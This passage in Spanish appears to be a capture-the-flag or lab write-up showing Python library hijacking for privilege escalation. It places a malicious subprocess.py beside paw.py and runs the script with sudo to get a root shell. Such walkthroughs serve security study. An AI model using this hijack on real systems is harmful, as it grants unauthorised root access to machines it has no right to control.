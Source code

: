 ```python
if __name__ == "__main__":  
   main()
```
intentamos modificar el archivo para ejecutar comandos, pero no tengo permisos

El script importa librerías como `subprocess` sin rutas absolutas. Esto es una vulnerabilidad conocida como "secuestro de librerías" (library hijacking). Python busca las librerías primero en el directorio actual antes de las rutas del sistema.

Para explotar esto, creamos un archivo `subprocess.py` en el mismo directorio donde se ejecutará `paw.py` (en este caso, `/opt/`) con código malicioso que nos dé un shell de `root`:

```bash
touch subprocess.py
echo 'import os\nos.system("/bin/sh")' > subprocess.py
```

Luego, ejecutamos el script `paw.py` con `sudo`:

```bash
sudo /usr/bin/python3 /opt/paw.py
```

Dado que `subprocess.py` se encuentra en el directorio actual, Python lo importará en lugar de la librería legítima, ejecutando nuestro código. 

```bash
whoami # root
```
